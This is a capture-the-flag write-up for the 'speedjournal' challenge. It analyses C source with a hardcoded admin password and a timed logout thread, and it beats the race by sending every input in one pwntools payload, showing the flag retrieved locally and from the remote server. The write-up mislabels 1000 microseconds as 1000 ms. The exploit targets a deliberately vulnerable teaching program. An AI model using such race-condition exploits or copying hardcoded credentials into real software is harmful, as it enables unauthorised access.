

# speedjournal



We are given two files, `Makefile` and `speedjournal.c`, we will go through them one at a time

## Source Code Analysis

### Makefile

We can see that this Makefile script will invoke the GCC compiler and compile the C code

```makefile
CC=gcc
CFLAGS=-pthread -O0 -g -Wall

all: speedjournal

diary: speedjournal.c
        $(CC) $(CFLAGS) speedjournal.c -o demo-speedjournal

clean:
        rm -f speedjournal
```

Here, if we use `make` without any arguments, it will compile the code for us

<aside>
💡

Not sure why it includes `all: speedjournal`, which does nothing.

```makefile
└─$ make all                                                                                                                                                                                                                               
make: Nothing to be done for 'all'.
```

</aside>

The result should be the following

```bash
└─$ make
gcc -pthread -O0 -g -Wall    speedjournal.c   -o speedjournal
/usr/bin/ld: error in /usr/lib/gcc/x86_64-linux-gnu/14/../../../x86_64-linux-gnu/Scrt1.o(.sframe); no .sframe will be created
```

### Speedjournal.c

There is a `login_admin` function, which reveals the password `supersecret`

```c
void login_admin() {
    char pw[32];
    printf("Admin password: ");
    fgets(pw, sizeof(pw), stdin);

    if (strncmp(pw, "supersecret\n", 12) == 0) {
        is_admin = 1;

        pthread_t t;
        pthread_create(&t, NULL, logout_thread, NULL);
        pthread_detach(t);

        puts("[+] Admin logged in (temporarily)");
    } else {
        puts("[-] Wrong password");
    }
```

Here is the menu, so we should use `1` to log in

```c
void menu() {
    puts("\n1. Login admin");
    puts("2. Write log");
    puts("3. Read log");
    puts("4. Exit");
    printf("> ");
}
```

But where is the flag? It is stored in the first(`0`) element

```c
int main() {
    setbuf(stdout, NULL);

    strcpy(logs[0].content, "RUSEC{not_the_real_flag}\n");
    logs[0].restricted = 1;
    log_count = 1;
    .
    .
    .
```

So the input sequence should be:  ‘1’ → ‘supersecret’ → ‘3’ → ‘0’ right?

## Exploit Failed:(

```bash
└─$ ./speedjournal

1. Login admin
2. Write log
3. Read log
4. Exit
> 1
Admin password: supersecret
[+] Admin logged in (temporarily)

1. Login admin
2. Write log
3. Read log
4. Exit
> 3
Index: 0
Access denied

1. Login admin
2. Write log
3. Read log
4. Exit
```

## Thread

If we take a closer look at the function `login_admin`, there are several lines of code after setting `is_admin` to 1 that I missed in the first round. 

The code will create a new thread that calls the function `logout_thread`

```c
 pthread_t t;
 pthread_create(&t, NULL, logout_thread, NULL);
 pthread_detach(t);
```

We can trace what the `logout_thread` is about, which is waiting, and then change `is_admin` to 0

```c
void *logout_thread(void *arg) {
    usleep(WAIT_TIME);
    is_admin = 0;
    return NULL;
}
```

How long, you may ask? `1000`... microsecond(ms)

```c
#define WAIT_TIME 1000
```

It is impossible for the server to receive the above within 1000ms, so the `is_admin` will already become 0 when we try to read the first element.

To solve this, we can send them all at once, using the `\n` to separate them, like the following

```html
payload=b'1\n'
payload+=b'supersecret\n'
payload+=b'3\n'
payload+=b'0\n'

p.sendlineafter(b'>', payload)
```

That way, we can send them all to the buffer, and will read the next one immediately.

To verify, we can try to run on the given ELF, and it succeeds

```html
└─$ python test.py 
[+] Starting local process './speedjournal': pid 85535
[*] Switching to interactive mode
 Admin password: [+] Admin logged in (temporarily)

1. Login admin
2. Write log
3. Read log
4. Exit
> Index: Log: RUSEC{not_the_real_flag}

1. Login admin
2. Write log
3. Read log
4. Exit
```

So we can connect to the instance to get flag

```bash
└─$ python test.py                                                                                                                                                                                                                         
[+] Opening connection to challs.ctf.rusec.club on port 22169: Done
[*] Switching to interactive mode
 Admin password: [+] Admin logged in (temporarily)

1. Login admin
2. Write log
3. Read log
4. Exit
> Index: Log: RUSEC{wow_i_did_a_data_race}

1. Login admin
2. Write log
3. Read log
4. Exit
```
